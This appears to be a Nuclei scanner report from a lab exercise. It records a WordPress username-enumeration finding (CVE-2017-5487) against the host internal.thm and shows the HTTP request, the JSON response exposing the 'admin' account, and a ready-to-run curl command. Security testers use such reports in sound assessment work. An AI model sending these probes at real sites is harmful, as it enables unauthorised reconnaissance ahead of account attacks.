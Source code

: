 ### WordPress Core <4.7.1 - Username Enumeration (CVE-2017-5487:usernames) found on internal.thm

----
**Details**: **CVE-2017-5487:usernames** matched at internal.thm

**Protocol**: HTTP

**Full URL**: http://internal.thm/wordpress/?rest_route=/wp/v2/users/

**Timestamp**: Sun May 12 11:03:07 +0100 BST 2024

**Template Information**

| Key | Value |
| --- | --- |
| Name | WordPress Core <4.7.1 - Username Enumeration |
| Authors | manas_harsh, daffainfo, geeknik, dr0pd34d |
| Tags | cve2017, cve, wordpress, wp, edb |
| Severity | medium |
| Description | WordPress Core before 4.7.1 is susceptible to user enumeration because it does not properly restrict listings of post authors via wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php in the REST API, which allows a remote attacker to obtain sensitive information via a wp-json/wp/v2/users request. |
| Remediation | Update WordPress to version 4.7.1 or later<br> |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) |
| CWE-ID | [CWE-200](https://cwe.mitre.org/data/definitions/200.html) |
| CVE-ID | [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-5487) |
| CVSS-Score | 5.30 |
| product | wordpress |
| shodan-query | http.component:"WordPress" |
| vendor | wordpress |

**Request**
```http
GET /wordpress/?rest_route=/wp/v2/users/ HTTP/1.1
Host: internal.thm
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_2_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 631
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages
Allow: GET
Content-Type: application/json; charset=UTF-8
Date: Sun, 12 May 2024 10:03:09 GMT
Link: <http://internal.thm/blog/index.php/wp-json/>; rel="https://api.w.org/"
Server: Apache/2.4.29 (Ubuntu)
Vary: Origin
X-Content-Type-Options: nosniff
X-Robots-Tag: noindex
X-Wp-Total: 1
X-Wp-Totalpages: 1

[{"id":1,"name":"admin","url":"http:\/\/192.168.1.45\/blog","description":"","link":"http:\/\/internal.thm\/blog\/index.php\/author\/admin\/","slug":"admin","avatar_urls":{"24":"http:\/\/1.gravatar.com\/avatar\/77d33fec916329cf93f20054b38a86ce?s=24&d=mm&r=g","48":"http:\/\/1.gravatar.com\/avatar\/77d33fec916329cf93f20054b38a86ce?s=48&d=mm&r=g","96":"http:\/\/1.gravatar.com\/avatar\/77d33fec916329cf93f20054b38a86ce?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/\/internal.thm\/blog\/index.php\/wp-json\/wp\/v2\/users\/1"}],"collection":[{"href":"http:\/\/internal.thm\/blog\/index.php\/wp-json\/wp\/v2\/users"}]}}]
```

**Extra Information**

**Extracted results:**

- admin


References: 
- https://www.exploit-db.com/exploits/41497
- https://www.wordfence.com/blog/2016/12/wordfence-blocks-username-harvesting-via-new-rest-api-wp-4-7/
- https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
- https://nvd.nist.gov/vuln/detail/CVE-2017-5487
- http://www.openwall.com/lists/oss-security/2017/01/14/6

**CURL command**
```sh
curl -X 'GET' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_2_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36' 'http://internal.thm/wordpress/?rest_route=/wp/v2/users/'
```

----

Generated by [Nuclei v3.2.6](https://github.com/projectdiscovery/nuclei)